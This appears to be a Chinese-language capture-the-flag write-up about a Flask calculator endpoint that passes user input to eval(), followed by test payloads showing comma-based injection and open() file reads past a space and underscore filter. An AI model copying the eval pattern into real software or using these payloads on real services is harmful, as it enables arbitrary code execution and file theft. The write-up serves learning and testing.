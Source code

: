 ```html=73
  }
</script>
```

app.py
```python=
from flask import Flask, request, jsonify, render_template

app = Flask(__name__)

@app.route('/calculate', methods=['POST']) //POST JSON格式，eval()執行
def calculate():
    data = request.json
    expression = data['expression'].replace(" ","").replace("_","")
    try:
        result = eval(expression)
    except Exception as e:
        result = str(e)
    return jsonify(result=str(result))

@app.route('/')
def index():
    return render_template('index.html')

if __name__ == '__main__':
    app.run("0.0.0.0",5001)

```

#### 1. 加入分號 ";"
```
{"expression":"8+9;"}
```
![image](https://hackmd.io/_uploads/SJ3GIZk4A.png)

> "result":"invalid syntax (<string>, line 1)"

#### 2. 加入逗號 ","
```
"expression":"8+9,print('CHW')"
```

![image](https://hackmd.io/_uploads/ryMDY-yNA.png)

> 成功執行
    
#### 3. Bypass 空格 & __
##### 3.1 python __ import__('subprocess') 先擺一邊
##### 3.2 嘗試file()
```
"expression":"8+9,file('flag.txt').read()"
```
回應
```
"result":"name 'file' is not defined"
```
> 嘗試其他函數
##### 3.2 嘗試open()
```
"expression":"8+9,open('flag.txt').read()"
```
回應:
```
"result":"[Errno 2] No such file or directory: 'flag.txt'"
```
> 代表 open() 可以執行